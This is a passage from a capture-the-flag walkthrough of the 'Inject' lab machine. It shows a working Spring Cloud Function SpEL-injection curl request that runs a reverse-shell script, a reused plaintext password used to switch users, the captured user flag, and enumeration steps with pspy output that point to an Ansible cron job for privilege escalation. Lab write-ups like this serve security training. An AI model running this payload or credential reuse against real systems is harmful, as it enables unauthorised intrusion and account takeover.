 Let's execute it !
```
curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/revshell")' -d '.'
```

We're in! We're now using the user `Frank`!
```
frank@inject:/
```

Let's try to use the credentials we found earlier!
```
frank@inject:~$ su phil
Password: DocPhillovestoInject123
```

It worked! We're now `Phil`!

```
phil@inject:/
```

Let's check the [`user`](./user.txt) flag !
```
cat /home/phil/user.txt
```

Go it !!!
```
2a4a2bf19bb1198f5ef0441d302e7b87
```

Let's see if there are any binaries with SUID permissions
```
find / -perm -u=s 2>/dev/null
```
> Nothing interesting...


Let's check our `id`
```
phil@inject:/ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Let's check out permissions and privileges with the `staff` group
```
find / -group staff 2>/dev/null
```

The first path of the output gives us a clue about the privilege escalation...
```
/opt/automation/tasks
/root
/var/local
...
```

In our `home` directory, we have the `pspy64` binary, which is for comparing processes! Let's check for CRON tasks then!
```
2023/07/09 14:42:01 CMD: UID=0     PID=70496  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
2023/07/09 14:42:01 CMD: UID=0     PID=70497  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
2023/07/09 14:42:09 CMD: UID=0     PID=70594  | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1688913728.344112-70575-115364851993038/AnsiballZ_systemd.py
2023/07/09 14:42:09 CMD: UID=0     PID=70593  | /bin/sh -c /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1688913728.344112-70575-115364851993038/AnsiballZ_systemd.py && sleep 0
2023/07/09 14:42:09 CMD: UID=0     PID=70595  | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1688913728.344112-70575-115364851993038/AnsiballZ_systemd.py
```